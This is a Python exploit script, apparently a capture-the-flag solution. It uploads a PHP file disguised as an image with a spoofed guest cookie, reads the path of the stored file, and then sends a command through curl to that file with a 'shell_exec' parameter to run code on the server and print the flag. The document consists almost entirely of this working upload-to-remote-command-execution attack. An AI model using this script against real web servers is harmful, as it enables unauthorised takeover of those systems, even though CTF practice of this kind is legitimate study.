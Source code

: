### Script
```python
import sys
import requests
from bs4 import BeautifulSoup
import subprocess

def main(url, file_upload, command_post):
    headers = {
        "Host": url.split("//")[1].split(":")[0],
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.97 Safari/537.36",
        "Referer": url,
        "Cookie": "user=BKSEC_guest",
    }

    files = {
        "image": ("admin.php", open(file_upload, "rb"), "application/octet-stream")
    }

    res = requests.post(url, headers=headers, files=files)

    soup = BeautifulSoup(res.text, 'html.parser')
    br_tag = soup.find('br')
    image_path = br_tag.next_sibling.strip()

    curl_path = "curl"
    path = image_path[1:] + "?0=shell_exec"

    curl_command = [curl_path, "-XPOST", "-d", command_post, f"{url}{path}"]

    try:
        result = subprocess.run(curl_command, capture_output=True, text=True, encoding="ISO-8859-1", check=True)
        output = result.stdout
        print("Flag:")
        print(output)
    except subprocess.CalledProcessError as e:
        print("Lỗi:", e)

if __name__ == "__main__":
    if len(sys.argv) != 4:
        print("Usage: python script.py <url> <file_upload> <command_post>")
    else:
        url = sys.argv[1]
        file_upload = sys.argv[2]
        command_post = sys.argv[3]
        main(url, file_upload, command_post)

```
